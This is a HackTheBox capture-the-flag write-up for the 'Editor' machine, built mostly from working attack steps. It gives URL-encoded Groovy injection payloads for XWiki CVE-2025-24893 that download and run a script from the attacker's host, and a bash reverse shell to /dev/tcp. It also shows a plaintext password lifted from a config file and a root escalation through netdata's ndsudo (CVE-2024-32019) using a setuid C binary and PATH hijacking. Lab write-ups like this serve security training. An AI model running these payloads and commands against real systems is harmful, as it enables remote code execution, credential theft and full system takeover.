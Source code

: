 ```yaml
---
title: "Editor HackTheBox Writeup"
date: 2025-08-31
tags: [ssh, HackTheBox, ndsudo]
categories: [HackTheBox]
---
```


# HackTheBox - Editor


![](/images/hackthebox/Editor/Pasted image 20250821174033.png)


# Reccon

As usual we will start with the *Nmap*
```
nmap -sC -sV --min-rate 5000 -T5 -Pn -p- 10.10.11.80
```

![](/images/hackthebox/Editor/Pasted image 20250821174634.png)

Looking at the result , we have 

-   22/tcp   open  ssh     OpenSSH
-  80/tcp   open  http    nginx
-  8080/tcp open  http    Jetty

Let add *editor.htb* in our hosts file
```
echo "10.10.11.80 editor.htb" | sudo tee -a /etc/hosts
```

# WebEnumeration

On port 80 we have

![](/images/hackthebox/Editor/Pasted image 20250821175749.png)

And on port *8080*

![](/images/hackthebox/Editor/Pasted image 20250821175938.png)

I saw the *Xwiki* version in the bottom , when i googled about it , i came acrros this CVE 2025-24893 

![](/images/hackthebox/Editor/Pasted image 20250821191425.png)

and for the exploit , i got this [Exploit](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py) 
To get the shell , we first need to create *shell.sh*

```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/9001 0>&1
```

After creating a *shell.sh* start a python server in you local machine

```
python3 -m http.server 8000
```

Then in the browser Paste this encoded URL

 ```
  http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://10.10.14.205:8000/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

 ```

Then have a listener of your choice , mine is *net-cat*

```
rlwrap nc -lvnp 9001
```

Then execute your payload
```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

And **Boom** u got your shell

![](/images/hackthebox/Editor/Pasted image 20250822194504.png)

In **/etc/passwd** u will find that there is a user called **oliver**

```
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
```

Then in the **WEB-INF** u will find **hibernate.cfg.xml**
In which u will find the password of **Oliver**

```
theEd1t0rTeam99
```

![](/images/hackthebox/Editor/Pasted image 20250822200138.png)
```
ssh oliver@editor.htb
```

Getting into the user , we got our **user.txt** 

# Getting the Root

On  Localhost at port 19999 there is a service running called **netdata**

![](/images/hackthebox/Editor/Pasted image 20250822201529.png)

So we did some Port forwarding

```
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

Paste this in your browser

```
http://localhost:19999/
```

![](/images/hackthebox/Editor/Pasted image 20250822203154.png)

Clicking on the **Please update them** , we get the version **1.45.2**

![](/images/hackthebox/Editor/Pasted image 20250822203407.png)

After digging the internet we get this [CVE-2024-32019](CVE-2024-32019)
**Oliver** has permission to run `ndsudo`:
1. Place an executable that is on `ndsudo`'s list of commands (e.g. `nvme`) in a writable path
2. Set the `PATH` environment variable so that it contains this path
3. Run `ndsudo` with a command that will run the aforementioned executable
First we need to make an **exploit.c** binary , then compile it

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);       // Switch to root
    setgid(0);       // Switch group to root
    system("/bin/bash");  // Spawn a root shell
    return 0;
}
```

Then compile it

```
gcc -o nvme exploit.c
```

Then we need to upload the exploit.c in Oliver's **/tmp** directory , for that we will use python server

```
python3 -m http.server 8000
```

Then the following

```
curl http://<YOUR-IP>:8000/nvme -o nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

And **Boom** we got the root.txt

![](/images/hackthebox/Editor/Pasted image 20250822211101.png)


---
